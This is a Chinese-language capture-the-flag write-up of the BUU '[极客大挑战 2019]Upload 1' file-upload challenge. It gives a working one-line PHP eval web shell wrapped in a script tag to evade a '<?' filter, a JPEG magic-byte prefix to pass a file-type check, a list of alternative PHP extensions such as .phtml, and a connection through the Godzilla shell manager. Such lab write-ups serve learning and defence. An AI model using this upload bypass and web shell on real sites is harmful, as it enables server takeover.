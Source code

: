 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[极客大挑战 2019]Upload 1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]Upload 1/","title":"BUU_[极客大挑战 2019]Upload 1"}
---
```


# 前期测试

经过测试
![Pasted image 20240806201017.png](/img/user/picture/Pasted%20image%2020240806201017.png)
此题
+ 要上传文件类型为图片
+ 是通过文件头标志来识别文件
+ 文件中不能出现`<?`
+ 文件名后缀不能出现`php`


# 简单攻击流程

因为不能出现`<?`，所以我们上传文件内容可以考虑采用js+ php方案
```php
<script language='php'>@eval($_POST["pass"]);</script>
```

记得添加上文件头标志`FFD8FF`
![Pasted image 20240806201425.png](/img/user/picture/Pasted%20image%2020240806201425.png)


准备上传
![Pasted image 20240806201513.png](/img/user/picture/Pasted%20image%2020240806201513.png)

抓包，修改文件后缀为`.phtml`
![Pasted image 20240806201633.png](/img/user/picture/Pasted%20image%2020240806201633.png)
![Pasted image 20240806201647.png](/img/user/picture/Pasted%20image%2020240806201647.png)

常见可解析为php的文件后缀
- **.php** - 这是最常见的PHP文件后缀。
- **.php3** - 早期版本的PHP文件后缀。
- **.php4** - 用于PHP 4版本的文件后缀。
- **.php5** - 用于PHP 5版本的文件后缀。
- **.phtml** - 常用于HTML和PHP代码混合的文件后缀。
- **.phps** - 通常用于显示PHP源代码的高亮显示。


哥斯拉测试连接通过
![Pasted image 20240806201818.png](/img/user/picture/Pasted%20image%2020240806201818.png)

获得flag
![Pasted image 20240806201847.png](/img/user/picture/Pasted%20image%2020240806201847.png)
